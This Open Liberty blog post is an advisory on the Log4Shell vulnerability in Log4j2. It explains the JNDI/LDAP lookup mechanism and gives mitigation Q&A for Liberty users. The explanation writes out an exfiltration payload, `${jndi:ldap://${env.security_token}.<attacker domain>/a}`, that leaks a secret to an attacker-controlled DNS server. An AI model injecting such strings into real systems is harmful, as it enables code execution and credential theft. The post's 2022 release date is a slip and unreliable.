 ---
layout: post
title: "Liberty Guide on Log4j2 CVE-2021-44228"
# Do NOT change the categories section
categories: blog
author_picture: https://avatars.githubusercontent.com/u/10999780?s=460&u=1a66e468c70e84f54bf5a75c27881cc6133ccc20&v=4
author_github: https://github.com/Emily-Jiang
seo-title: Liberty Guide on Log4j CVE-2021-44228
seo-description: Open Liberty Guide on understanding and solving Log4j2 CVE-2021-44228
blog_description: Open Liberty provides this essential guide for Open Liberty customers to understand Log4j2 CVE-2021-44228 and the suggestions how to mitigate this thread 
open-graph-image: https://openliberty.io/img/twitter_card.jpg
additional_authors:
- name: Alasdair Nottingham
  github: https://github.com/nottycode
  image: https://avatars3.githubusercontent.com/nottycode
---

On December 10th 2022 the Apache Logging project released a 2.15 release for Log4j2 a popular Java logging framework to address a CVSS 10 scored CVE-2021-44228 known as Log4Shell. 
CVSS 10 is the highest severity score that can be assigned.


The Log4Shell vulnerability occurs due to a combination of a message lookup feature in Log4J and how the Java Naming and Directory (JNDI) API works when connecting via LDAP.when connecting via LDAP. 
A common syntax for variable replacement in configuration is `${variable-name}`, the Log4J message lookup feature enables that capability for log messages. 
Log4J also has a special lookup function for resolving variables from an LDAP server. The syntax for this is `${jndi:ldap://<server name>/<object name>}`. 
When Log4J sees this string it will connect to the provided server to download the object to log the value. 
This will return a serialized object which the LDAP JNDI implementation will deserialize, if the JVM does not have a copy of the class for the serialized object it will use a copy available from the server. 

It is very common for applications using a logging framework to log untrusted input for debugging purposes in case of a failure. 
Meaning if an attacker can work out an input value that will be logged by the application it can insert this string into the payload and when it is logged the Java code will download code from the server controlled by the attacker and execute it. 
To add to the risk present by this lookup function the lookup function is recursive allowing for data exfiltration. Data exfiltration maybe possible even if the targeted LDAP server is not reachable. 
For example a string like `${jndi:ldap://${env.security_token}.<attacker domain>/a}` would resolve the security_token environment variable from the shell and then do a DNS lookup to resolve the IP address using the attackers controlled DNS server providing the hacker with the value of the security token.


Since the original `Log4Shell` Apache has issued two further CVEs affecting Log4J CVE-2021-4104 and CVE-2021-45046. 
As a result of this the recommendation is to upgrade all log4j usage to at least the 2.16 version.




Open Liberty does not ship log4j and as a result any data logged by Open Liberty will not put you at risk. 
However log4j is a widely used framework and your applications may make use of Log4J as a result we have prepared the following Q&A for developers seeking advice:


* Q1. If my applications use log4j, which version of log4j should I use to be safe?
A1: You should update the version of `log4j2` to `2.16`. 


* Q2. If I am running with latest version of Java, am i protected? Do i still need to follow remediate steps? 

A2. `CVE-2021-44228`is specific to Log4J V2 and has nothing to do with Java or its level. Features in the most recent releases of Java mitigate some, but not all of the risk. 


* Q3. It will take a long time to update all our applications is there anything we can do to mitigate in the meantime?

A3. Provided `log4j` 2.10 or newer is being used setting the Java System property  log4j2.formatMsgNoLookups to true will mitigate the issue. Setting an environment variable to `LOG4J_FORMAT_MSG_NO_LOOKUPS=true` will also have the same effect. These steps will not mitigate `CVE-2021-45046`.


* Q4 How can I configure Liberty with log4j2.formatMsgNoLookups?

A4. Create a jvm.options file in `${wlp.user.dir}/shared/jvm.options` with `-Dlog4j2.formatMsgNoLookups=true` on a line by itself. Then restart all servers for it to take effect. This will apply to all servers in that user dir.


* Q5. I cannot find `org/apache/logging/log4j/core/lookup/JndiLookup.class` in my log4j jar, am I vulnerable?

A5. It is unlikely you are vulnerable. Most likely you are running log4j1 which is not vulnerable.


* Q6. Could setting `log4j2.formatMsgNoLookups=true` have an effect on log4j 1.x or other non-log4j applications? Is it safe to set this parameter until we have checked every custom written part in our WAS environments? 

A6. The setting should have no affect on non-log4j or log4j 1.x. It is a property related to log4j 2.x behavior.


* Q7. If I set `log4j2.formatMsgNoLookups` to `true` will it affect my application use of log4j2?

A7. Yes, that will be visible to any and all copies of `log4j2` that are in the JVM.


If you are WebSphere Application Server customers, please refer to this blog to learn about more on how to respond to this CVE.
You might find the following blogs to be useful: 

* https://www.infoq.com/news/2021/12/log4j-zero-day-vulnerability/[Vulnerability Affecting Multiple Log4j Versions Permits RCE Exploit]
* https://blog.sebastian-daschner.com/entries/log4shell-and-how-to-fix%C2%A0[The Log4Shell vulnerability and how to fix it]
* http://slf4j.org/log4shell.html[Comments on the CVE-2021-44228 vulnerability from SLF4J]